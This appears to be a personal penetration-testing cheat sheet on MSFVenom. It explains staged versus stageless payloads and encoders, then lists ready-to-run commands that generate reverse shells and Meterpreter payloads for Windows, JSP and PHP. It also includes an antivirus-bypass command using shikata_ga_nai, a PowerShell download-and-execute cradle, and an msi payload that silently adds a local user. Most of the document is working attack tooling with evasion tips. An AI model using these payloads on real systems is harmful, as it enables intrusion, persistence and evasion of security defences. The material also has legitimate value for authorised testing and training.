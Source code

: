 ```yaml
---
tags:
  - Exploitation
  - RemoteShells
  - Tooling
---
```

MSFVenom is the payload creating cousin of Metasploit. With it, you can create a wide variety of shellcodes, reverse TCP connectors, and much more. [MSFvenom - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/msfvenom/)

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

## Staged vs. Stageless Payloads

`Staged` payloads create a way for us to send over more components of our attack. When run a staged payload using an exploit module in Metasploit, the payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.

`Stageless` payloads do not have a stage. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload. In addition to this, stageless payloads can sometimes be better for evasion purposes due to less traffic passing over the network to execute the payload, especially if we deliver it by employing social engineering. This concept is also very well explained by Rapid 7 in this blog post on [stageless Meterpreter payloads](https://www.rapid7.com/blog/post/2015/03/25/stageless-meterpreter-payloads/).

## Usage

##### List Payloads 

```shell-session
msfvenom -l payloads
```

##### Options 

| Option                            | Description                                            |
| --------------------------------- | ------------------------------------------------------ |
| -p \<PAYLOAD\>                    | Generate a payload from the list in [[#List Payloads]] |
| LHOST=10.10.14.113 LPORT=443 <br> | Addresses to connect back to                           |
| -f elf                            | Format to generate the payload in                      |
| -o \<FILE\>                       | Output file                                            |

# Anti-Virus Bypass 

* `msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.xx.xx LPORT=1339 -e x86/shikata_ga_nai -i 100 -f csharp`
* 
If the program gets closed quickly you can use` msf exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate`  in MSF console
# Windows 

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
```

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1

iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
```

```
sudo msfvenom -p windows/adduser USER=quas4r PASS=quas4r@123 -f msi -o exploit.msi
msiexec /quiet /qn /i C:\Users\phoebe\exploit.msi
```

## Example commands:

* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta`
* `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.68 LPORT=445 -f exe > shell.exe`
* `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=443 -f raw > shell.jsp`
* `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.49.65 lport=443 -f raw`

## Payload Encoders 

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

```shell-session
-e x86/shikata_ga_nai -i 10
```

Increasing the number following `-i` will increase the number of iterations of the encoder.

Encoders are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.


